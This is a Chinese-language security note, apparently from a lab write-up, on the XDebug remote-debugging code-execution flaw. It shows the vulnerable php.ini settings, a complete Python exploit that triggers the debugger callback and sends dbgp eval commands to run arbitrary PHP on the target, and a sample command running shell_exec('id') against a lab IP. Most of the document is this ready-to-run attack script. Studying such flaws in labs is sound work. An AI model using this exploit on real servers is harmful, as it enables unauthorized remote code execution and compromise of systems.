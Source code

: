 # XDebug 远程调试漏洞（代码执行）

XDebug 是 PHP 的一个扩展，用于调试 PHP 代码。如果目标开启了远程调试模式，并设置 `remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1

xdebug.remote_enable = 1
```

这个配置下，我们访问 http://target/index.php?XDEBUG_SESSION_START=phpstorm，目标服务器的 XDebug 将会连接访问者的 IP（或 X-Forwarded-For 头指定的地址）并通过 dbgp 协议与其通信，我们通过 dbgp 中提供的 eval 方法即可在目标服务器上执行任意 PHP 代码。

漏洞利用：

exp：

```python
#!/usr/bin/env python3
import re
import sys
import time
import requests
import argparse
import socket
import base64
import binascii
from concurrent.futures import ThreadPoolExecutor


pool = ThreadPoolExecutor(1)
session = requests.session()
session.headers = {
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}

def recv_xml(sock):
    blocks = []
    data = b''
    while True:
        try:
            data = data + sock.recv(1024)
        except socket.error as e:
            break
        if not data:
            break

        while data:
            eop = data.find(b'\x00')
            if eop < 0:
                break
            blocks.append(data[:eop])
            data = data[eop+1:]

        if len(blocks) >= 4:
            break
    
    return blocks[3]


def trigger(url):
    time.sleep(2)
    try:
        session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
    except:
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
    parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
    parser.add_argument('-t', '--target', required=True, help='target url.')
    parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
    args = parser.parse_args()
    
    ip_port = ('0.0.0.0', args.listen)
    sk = socket.socket()
    sk.settimeout(10)
    sk.bind(ip_port)
    sk.listen(5)

    pool.submit(trigger, args.target)
    conn, addr = sk.accept()
    conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

    data = recv_xml(conn)
    print('[+] Recieve data: ' + data.decode())
    g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
    if not g:
        print('[-] No result...')
        sys.exit(0)

    data = g.group(1)

    try:
        print('[+] Result: ' + base64.b64decode(data).decode())
    except binascii.Error:
        print('[-] May be not string result...')

```

```
python3 exp.py -t http://192.168.1.192:1345/index.php -c 'shell_exec('id');'
```

靶机本地没有phpstorm。

![image-20211118175645322](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211118175645322.png)


